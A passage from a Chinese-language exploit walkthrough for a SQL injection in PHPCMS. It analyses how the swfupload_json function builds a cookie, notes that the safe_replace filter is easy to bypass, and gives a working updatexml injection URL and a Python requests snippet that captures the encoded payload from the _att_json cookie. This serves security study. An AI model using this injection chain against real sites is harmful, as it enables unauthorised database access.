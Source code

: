 ![5](phpcms-pic/5.png)

我们接着看swfupload_json函数， json_str是cookie的内容，而json_str又是由这三部分组成

```php
$arr['aid'] = intval($_GET['aid']);
$arr['src'] = safe_replace(trim($_GET['src']));
$arr['filename'] = urlencode(safe_replace($_GET['filename']));
$json_str = json_encode($arr);
```

这三个参数， aid用了intval,filename用了urlencode和safe_replace函数，src用safe_replace函数过滤。前面我们刚刚简单介绍过了，safe_replace很好绕过。

#### 第二步

带着第一步得到的userid的值，访问第二个连接，并且加上payload。

```
http://127.0.0.1/phpcms/index.php?m=attachment&c=attachments&a=swfupload_json&src=&id=%*27 and updat*exml(1,con*cat(1,(us*er())),1)%23&modelid=1&catid=1&m=1&f=
```

```python
  step2 = "{}/index.php?m=attachment&c=attachments&a=swfupload_json&src={}".format(url, quote(payload))
    #print 'step2:', step2, cookies
    r = requests.get(step2,cookies=cookies)
    for cookie in r.cookies:
        if '_att_json' in cookie.name:
            encode_payload = cookie.value
            print 'encode_payload:'+encode_payload
```

![6](phpcms-pic/6.png)
